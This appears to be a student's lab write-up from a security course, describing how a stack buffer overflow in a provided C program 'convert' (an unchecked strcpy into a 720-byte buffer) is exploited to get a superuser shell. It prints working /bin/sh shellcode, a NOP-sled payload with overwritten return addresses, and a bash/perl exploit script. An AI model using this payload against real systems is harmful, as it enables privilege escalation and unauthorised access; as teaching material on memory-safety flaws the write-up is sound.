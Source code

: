 ## Hacking the Superuser to get access to the supersecret file

Given the C program *convert.c* find a way to execute Shell Code by overflowing the unprotected buffer.

### The convert program
The superuser's program, *convert*, is a simple C program that given a number of Bitcoins and a date it returns the amount of dollars they were valued at that time. It uses the *bitcoin.txt* to do so.

### Finding the weak spot

By reading the code we can see that the instruction
```c
    strcpy(date,argv[2]);
```
give us the opportunity to overflow the `date` buffer because there aren't any bound check to see if `argv[2]` is smaller or equal to 720, the length of the `date` char array.

### Trial and error
I filled date with a large random string and the program crashed giving me a SEGMENTATION fault and confirming the vulnerability of the executable.

Then I tried to prepare the proper input to get the program to execute my [Shell code](https://github.com/JasonPap/Buffer-Overflows/tree/master/shellcode):

```sh
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

and filling the empty space before the Shell code with "\x90", the Hex code of NOP instruction, to a total length of 720 chars.

Then I had to use **GDB** to find where in the stack is saved the `date` buffer so I could point back. By printing the address of the `arglist` I was able to figure it out. Then, all I had to do is to write that address several times (about 4) at the end of my input (after the 720 chars) so it would overwrite the saved eip, the return address. 

My string now looked something like this:
```
…\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf
```
./convert 1 'myString'

That didn't work (and could never work that way). Except for the "\" character everything else was copied to the memory as their corresponding hex representation. For example, 'a' was replaced with 0x61 etc.

I had to find a way to write to the memory exactly the Bytes of code I had in my string. So I tried online hex to char converters to try to reverse the conversion that happened before. That didn’t work either because I couldn't copy-paste those characters that didn't appear correctly.


### Solving the puzzle
By using the exploit3.c code provided by Aleph One [here](http://insecure.org/stf/smashstack.html) with 800 as command line argument I was able to get access to the supersecret.txt quickly.

Although the problem was solved I tried another way to do it.

I wrote a Bash script to generate the right string that would overflow the date buffer and give me access to the *supersecret.txt*. I used **Perl** commands to convert my Shell code to characters (each byte a char). And again GDB to find the address of the `date` buffer and see what was written to the `saved eip` after the overflow to make sure I was writing an address somewhere in the NOP slide.

```
#!/bin/bash
arg=`perl -e 'printf"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\$ 

arg2=`perl -e 'printf"\x96\xf6\xff\xbf"'` #the address that will overwrite the return address. 

../superuser/convert 2 $arg$arg2

```

Now I had a shell running with the superuser's privileges.

### Useful links
Those are a collection of websites I used during my successful and un-successful trials.

* [tldp.org](http://www.tldp.org/LDP/Bash-Beginners-Guide/html/sect_03_02.html)
* [crypto.di.uoa.gr](https://crypto.di.uoa.gr/csec/Asphaleia_Ypologistikon_Systematon/Semeioseis_files/gdb-tut.pdf)  (in Greek)
* [insecure.org](http://insecure.org/stf/smashstack.html)
* [velocityreviews.com](http://www.velocityreviews.com/forums/t727636-print-hex-value-of-char.html)
* [linuxquestions.org](http://www.linuxquestions.org/questions/programming-9/%5Bbash%5D-ascii-to-hex-and-hex-to-ascii-488357/)
* [Microsoft.com](https://msdn.microsoft.com/en-us/library/9hxt0028.aspx)
* [csail.mit.edu](http://css.csail.mit.edu/6.858/2012/readings/return-to-libc.pdf)
* [stackoverflow.com](http://stackoverflow.com/questions/8534607/how-to-fix-buffer-overflow-return-address-failure)


